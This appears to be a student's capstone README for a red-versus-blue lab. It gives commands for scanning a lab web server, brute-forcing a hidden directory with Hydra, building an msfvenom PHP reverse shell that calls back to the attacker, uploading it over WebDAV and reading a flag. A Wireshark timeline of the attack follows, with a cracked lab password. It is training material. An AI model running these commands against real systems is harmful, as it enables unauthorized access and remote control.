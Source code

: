 # Capstone Project: Red vs. Blue

For this project we were engaged in a black box penetration test. As part of the exercise we performed Red team activities including: reconnaissance, identification of vulnerabilities, attacks with different tools and scripts, and post exploitation tactics. For the Blue team portion we created a complete incident response summary and provided mitigation recommendations for the fictional organization.

### Red Team 
In this activity, you will use a Kali instance to hack into a vulnerable web server. Hidden in the web server is a file called `flag.txt`. You will need to use a reverse php shell to gain access to the web server to recover the `flag.txt` document. 

**Part 1: Red Team Objectives**
Complete the following in order to find the flag:
- Discover the IP address of the Linux server.
```
netdiscover
```
<img src="images/red-01.png" />

```
Db_nmap 172.16.84.205 -Pn -p-
```
<img src="images/red-02.png" />

```
Db_nmap 172.16.84.205 -A
```
<img src="images/red-03.png" />

```
Nikto --host http://172.16.84.205
```
<img src="images/red-04.png" />
<img src="images/red-05.png" />

```
printf “GET / HTTP/1.0\r\n\r\n” | nc 172.16.84.205 80 | less
```
<img src="images/red-06.png" />

- Use Burp Suite to generate a sitemap by manually browsing the site.
<img src="images/red-07.png" />

- Use Burp Spider to expand your sitemap.
<img src="images/red-08.png" />

- Locate the hidden directory on the server.
company_folders/secret_folder
<img src="images/red-09.png" />

- Brute force the password for the hidden directory.
<img src="images/red-10.png" />

```
hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 172.16.84.205 http-get /company_folders/secret_folder/
```
<img src="images/red-11.png" />
<img src="images/red-12.png" />

- Break the hash password with John the Ripper
<img src="images/red-13.png" />

- Connect to the server via Webdav.
<img src="images/red-14.png" />

- Generating a reverse shell with msfvenom.
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=172.16.84.55 LPORT=6666 -f raw -or evil.php
```
<img src="images/red-15.png" />

- Upload a reverse php connection payload.
<img src="images/red-16.png" />

```
msf > use multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 172.16.84.55
LHOST => 172.16.84.55
msf exploit(handler) > set LPORT 6666
LPORT => 6666
msf exploit(handler) > exploit
```

- Capture and show the flag.
```
find / -type f -name 'flag.txt' 2>/dev/null -exec cat {} \'
```

<img src="images/red-17.png" />

### Blue Team 
In order to complete the Blue team portion of the capstone you will already need to have infiltrated the vulnerable machine, and have received the snort log. 

**Objectives**
- How long did the attack last?
The attack started when the TCP scan was initiated (NMAP)in the third and fourth frames. 
<img src="images/blue-01.png" />

The attack ended when the PHP shell was activated in frame 61010. 
<img src="images/blue-02.png" />

**Therefore, the attack lasted roughly 9 minutes and 25 seconds.**

- How many password attempts were made?
There were 10,143 password cracking attempts made with hydra.
```
http.user_agent == "Mozilla/4.0 (Hydra)"
```
<img src="images/blue-03.png" />  

- What time was the correct password found? 
The correct password was detected by hydra at the 4 minute and 44th second mark. 
```
http.authbasic == "ashton:leopoldo" && http.user_agent == "Mozilla/4.0 (Hydra)"
```
<img src="images/blue-04.png" />

- What time was the shell placed onto the server?
```
http.request.uri contains "shell.php" && http.request.method == "PUT"
```
<img src="images/blue-05.png" />

**The attacker placed the reverse PHP shell on the webdav server at the 7 minute and 36th second mark, however, based on the network traffic it looked like he struggled first and deleted his first shell. Also, he used the Gnome Virtual File System (GVFS) to connect to the webdav server and upload the malicious script. See below:**
<img src="images/blue-06.png" />
<img src="images/blue-07.png" />

- What time was the shell activated?
```
http.request.uri contains "shell.php" && http.request.method == "GET"
```
**The PHP script is run simply by browsing to the newly uploaded file in the web browser. This can be seen as a GET request in the captured network traffic. The shell was activated at the 9 minute and 25 second mark. See below:**
<img src="images/blue-08.png" />
